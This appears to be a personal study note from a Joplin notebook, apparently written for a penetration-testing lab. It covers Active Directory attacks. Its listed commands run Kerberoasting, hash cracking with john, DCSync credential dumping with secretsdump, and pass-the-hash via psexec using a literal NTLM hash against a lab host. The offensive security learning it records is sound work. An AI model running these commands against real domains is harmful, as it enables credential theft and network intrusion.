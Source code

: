General Info

WriteOwner - can Provides the ability to take ownership of an object. The owner of an object can [gain full control rights on the object](https://technet.microsoft.com/en-us/library/dd125370%28v=ws.10%29.aspx).

- WriteDACL

https://adsecurity.org/?p=3658

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)

https://book.hacktricks.xyz/windows/active-directory-methodology

https://cheats.philkeeble.com/active-directory/enumeration

Most useful commands

- impacket-GetUserSPNs -request -dc-ip &lt;IP&gt; &lt;domain&gt;/&lt;Username&gt;
    - Store output in a file (hash.kirbi)
- john --wordlist=/usr/share/wordlists/rockyou.txt &lt;hashfile&gt;
- psexec.py &lt;domain&gt;/&lt;username&gt;:&lt;Password&gt;@IP

# PTH

impacket-secretsdump -no-pass -just-dc THINC.LOCAL/MASTER\\$@10.11.1.220

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c2aa4c5e6fa079437046e279bbc2454 Administrator@10.11.1.220

id: ac73f98de647453982f599882f52fae3
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-01-19T10:13:45.371Z
updated_time: 2022-05-03T17:00:49.280Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-19T10:13:45.371Z
user_updated_time: 2022-05-03T17:00:49.280Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1